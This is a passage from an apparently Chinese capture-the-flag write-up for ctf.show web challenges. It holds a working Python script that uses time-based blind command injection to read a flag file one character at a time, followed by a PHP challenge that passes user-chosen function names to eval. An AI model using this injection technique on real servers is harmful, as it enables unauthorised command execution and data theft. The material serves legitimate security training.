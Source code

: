 ```python
				key=1
	result+=" "

```



```python
import requests
import time
import string
str=string.digits+string.ascii_lowercase+"-"
result=""
key=0
for j in range(1,45):
	print(j)
	if key==1:
		break
	for n in str:
		payload="if [ `cat /f149_15_h3r3|cut -c {0}` == {1} ];then sleep 3;fi".format(j,n)
		#print(payload)
		url="http://877848b4-f5ed-4ec1-bfc1-6f44bf292662.chall.ctf.show?c="+payload
		try:
			requests.get(url,timeout=(2.5,2.5))
		except:
		    result=result+n
		    print(result)
		    break

```

最后 设置了 time.sleep(1)都出不来完整flag ~~放弃~~



## web140

```php
<?php

error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['f1']) && isset($_POST['f2'])){
    $f1 = (String)$_POST['f1'];
    $f2 = (String)$_POST['f2'];
    if(preg_match('/^[a-z0-9]+$/', $f1)){
        if(preg_match('/^[a-z0-9]+$/', $f2)){
            $code = eval("return $f1($f2());");
            if(intval($code) == 'ctfshow'){
                echo file_get_contents("flag.php");
            }
        }
    }
}
```
